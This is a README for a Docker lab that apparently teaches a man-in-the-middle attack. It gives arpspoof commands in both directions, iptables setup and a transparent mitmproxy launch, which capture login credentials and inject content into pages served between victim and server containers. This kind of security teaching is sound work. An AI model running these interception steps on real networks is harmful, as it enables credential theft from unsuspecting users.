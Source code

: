 # Docker MITM Attack Demonstration

This guide explains how to run a Man-in-the-Middle (MITM) attack demonstration using Docker containers. The setup includes three containers:
- **Alice**: The victim (Firefox browser)
- **Bob**: The target server (HTTP server)
- **Eve**: The attacker (MITM proxy)

## Prerequisites

- Docker
- docker-compose

## Setup and Running

1. **Start the containers**:
   ```bash
   docker-compose up -d
   ```

2. **Verify containers are running**:
   ```bash
   docker ps
   ```
   You should see three containers: `mitm_alice`, `mitm_bob`, and `mitm_eve`

3. **Start the MITM attack**:

   Run these commands in sequence:
   ```bash
   # Open first terminal - Start ARP spoofing from Bob to Alice
   docker exec -it mitm_eve arpspoof -t 172.19.0.2 172.19.0.3

   # Open second terminal - Start ARP spoofing from Alice to Bob
   docker exec -it mitm_eve arpspoof -t 172.19.0.3 172.19.0.2

   # Open third terminal - Configure iptables and start mitmproxy
   docker exec -it mitm_eve /olicyber/add_iptables_rule.sh
   docker exec -it mitm_eve mitmproxy --mode transparent@8082 -s /olicyber/proxy.py
   ```

4. **Access the target website**:
   - Open your browser and navigate to http://localhost:5800
   - This will open Firefox running in the Alice container
   - In Firefox, navigate to http://bob/
   - You should see the ZAICO login form

## Testing the Attack

1. The original website shows a ZAICO login form
2. When the MITM attack is active:
   - All traffic between Alice and Bob passes through Eve
   - Any login credentials entered will be captured and displayed in the mitmproxy console
   - The page includes a hidden message indicating it has been compromised

## Stopping the Attack

1. **Stop mitmproxy**:
   - Press `q` in the mitmproxy terminal

2. **Stop ARP spoofing**:
   - Use Ctrl+C in both arpspoof terminal windows

3. **Remove iptables rules**:
   ```bash
   docker exec -it mitm_eve /olicyber/del_iptables_rule.sh
   ```

4. **Stop all containers** (optional):
   ```bash
   docker-compose down
   ```

## Troubleshooting

1. **If mitmproxy fails to start**:
   - Make sure no other process is using port 8082
   - Restart the Eve container:
     ```bash
     docker restart mitm_eve
     ```

2. **If ARP spoofing doesn't work**:
   - Verify container IP addresses:
     ```bash
     docker exec -it mitm_eve dig alice bob
     ```
   - Check if IP forwarding is enabled:
     ```bash
     docker exec -it mitm_eve sysctl net.ipv4.ip_forward
     ```

3. **If the website doesn't load**:
   - Clear Firefox's cache
   - Make sure you're accessing http://bob/ (not localhost)
   - Verify all containers are running:
     ```bash
     docker ps
     ```

## Security Notice

This demonstration is for educational purposes only. Using these techniques against real systems without authorization is illegal and unethical. 
